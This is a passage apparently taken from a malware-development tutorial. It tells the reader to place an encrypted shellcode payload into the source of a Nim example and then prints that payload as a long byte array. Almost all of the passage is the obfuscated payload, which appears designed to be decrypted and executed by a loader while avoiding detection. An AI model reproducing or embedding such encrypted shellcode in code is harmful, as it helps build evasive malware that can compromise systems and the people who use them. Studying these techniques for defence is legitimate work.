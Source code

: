 ![img](./img/2024-06-01_12-45.png)     

Then, put this encrypted shellcode to our new example's source code:    

```nim
let encrypted: seq[byte] = @[
0x91, 0x2D, 0xEE, 0x93, 0x9D, 0x9A, 0x90, 
0x88, 0x85, 0xB5, 0x6F, 0x77, 0x6D, 0x24, 0x3E, 0x36, 0x3D, 0x37, 0x3E, 
0x21, 0x25, 0x54, 0xBD, 0x12, 0x25, 0xEE, 0x3D, 0x17, 0x53, 0x2D, 0xE4, 
0x25, 0x75, 0x5B, 0x27, 0xFC, 0x3F, 0x45, 0x51, 0x3F, 0xE6, 0x17, 0x3F, 
0x49, 0x25, 0x6A, 0xD8, 0x3D, 0x27, 0x28, 0x5E, 0xBE, 0x25, 0x54, 0xAF, 
0xDB, 0x51, 0x04, 0x13, 0x75, 0x41, 0x45, 0x2E, 0xB6, 0xA4, 0x68, 0x2E, 
0x76, 0xAC, 0x87, 0x82, 0x25, 0x2C, 0x34, 0x51, 0x3F, 0xE6, 0x37, 0x4F, 
0x49, 0xE6, 0x27, 0x53, 0x3F, 0x6C, 0xB5, 0x51, 0xFC, 0xED, 0xED, 0x6F, 
0x77, 0x6D, 0x2D, 0xEA, 0xB7, 0x19, 0x0A, 0x27, 0x76, 0xBD, 0x35, 0x51, 
0xFC, 0x25, 0x7D, 0x51, 0x33, 0xE6, 0x25, 0x4F, 0x3E, 0x6C, 0xB5, 0x8C, 
0x2B, 0x25, 0x9A, 0xA6, 0x49, 0x2C, 0xEE, 0x5B, 0xFF, 0x25, 0x64, 0xB9, 
0x3A, 0x5C, 0xAC, 0x27, 0x46, 0xAD, 0xC9, 0x2E, 0xB6, 0xA4, 0x68, 0x2E, 
0x76, 0xAC, 0x5D, 0x8F, 0x02, 0x9C, 0x5B, 0x23, 0x74, 0x21, 0x41, 0x67, 
0x32, 0x54, 0xB4, 0x1A, 0xA1, 0x35, 0x5B, 0x2B, 0xFC, 0x2D, 0x41, 0x26, 
0x76, 0xBD, 0x03, 0x51, 0x36, 0xE6, 0x69, 0x27, 0x49, 0x29, 0xEE, 0x2F, 
0x6B, 0x24, 0x64, 0xBF, 0x49, 0x2C, 0xEE, 0x6B, 0xFF, 0x25, 0x64, 0xBF, 
0x36, 0x35, 0x24, 0x37, 0x29, 0x34, 0x3F, 0x2E, 0x2F, 0x2C, 0x3C, 0x2E, 
0x2D, 0x25, 0xE6, 0x83, 0x57, 0x2C, 0x37, 0x90, 0x97, 0x35, 0x24, 0x36, 
0x2D, 0x53, 0x2D, 0xE4, 0x65, 0x84, 0x2C, 0x90, 0x88, 0x92, 0x38, 0x26, 
0xB0, 0xAC, 0x65, 0x6F, 0x77, 0x6D, 0x5B, 0x27, 0xFA, 0xF8, 0x9B, 0x6F, 
0x77, 0x6D, 0x5B, 0x23, 0xFA, 0xE8, 0x6C, 0x6E, 0x77, 0x6D, 0x2D, 0x5E, 
0xBE, 0x2C, 0xDF, 0x2A, 0xF4, 0x3B, 0x62, 0x90, 0xA2, 0x25, 0x54, 0xA6, 
0x36, 0xD7, 0x95, 0xDA, 0xD5, 0x3B, 0x9A, 0xBA, 0x1A, 0x08, 0x0A, 0x18, 
0x5A, 0x00, 0x00, 0x00, 0x00, 0x4C, 0x65, 0x0C, 0x16, 0x19, 0x65]
```
